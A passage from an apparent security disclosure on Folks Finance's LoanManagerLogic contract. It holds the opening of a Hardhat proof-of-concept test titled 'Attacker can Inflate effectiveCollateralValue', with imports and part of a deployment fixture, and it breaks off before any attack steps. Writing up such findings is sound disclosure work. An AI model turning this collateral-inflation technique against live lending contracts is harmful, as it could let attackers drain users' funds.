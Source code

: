 

## References

- [LoanManagerLogic.sol - Folks Finance Xchain Contracts](https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/fb92deccd27359ea4f0cf0bc41394c86448c7abb/contracts/hub/logic/LoanManagerLogic.sol#L66C1-L104C6)


        
## Proof of concept
## Proof of Concept
```
import { expect } from "chai";
import { ethers } from "hardhat";
import { PANIC_CODES } from "@nomicfoundation/hardhat-chai-matchers/panic";
import { loadFixture, reset, time } from "@nomicfoundation/hardhat-toolbox/network-helpers";
import {
  LiquidationLogic__factory,
  LoanManagerLogic__factory,
  LoanManager__factory,
  LoanPoolLogic__factory,
  MockHubPool__factory,
  MockOracleManager__factory,
  RewardLogic__factory,
  UserLoanLogic__factory,
} from "../../typechain-types";
import { BYTES32_LENGTH, convertStringToBytes, getAccountIdBytes, getEmptyBytes, getRandomBytes } from "../utils/bytes";
import { SECONDS_IN_DAY, SECONDS_IN_HOUR, getLatestBlockTimestamp, getRandomInt } from "../utils/time";
import { UserLoanBorrow, UserLoanCollateral } from "./libraries/assets/loanData";
import { getNodeOutputData } from "./libraries/assets/oracleData";
import {
  calcAverageStableRate,
  calcBorrowBalance,
  calcBorrowInterestIndex,
  calcReserveCol,
  calcStableInterestRate,
  convToCollateralFAmount,
  convToRepayBorrowAmount,
  convToSeizedCollateralAmount,
  toFAmount,
  toUnderlingAmount,
} from "./utils/formulae";

describe("Attacker can Inflate `effectiveCollateralValue`", () => {
  const DEFAULT_ADMIN_ROLE = getEmptyBytes(BYTES32_LENGTH);
  const LISTING_ROLE = ethers.keccak256(convertStringToBytes("LISTING"));
  const ORACLE_ROLE = ethers.keccak256(convertStringToBytes("ORACLE"));
  const HUB_ROLE = ethers.keccak256(convertStringToBytes("HUB"));

  async function deployLoanManagerFixture() {
    const [admin, hub, user, ...unusedUsers] = await ethers.getSigners();

    // libraries
    const userLoanLogic = await new UserLoanLogic__factory(user).deploy();
    const userLoanLogicAddress = await userLoanLogic.getAddress();
    const loanPoolLogic = await new LoanPoolLogic__factory(user).deploy();
    const loanPoolLogicAddress = await loanPoolLogic.getAddress();
    const liquidationLogic = await new LiquidationLogic__factory(
      {
        ["contracts/hub/logic/UserLoanLogic.sol:UserLoanLogic"]: userLoanLogicAddress,
```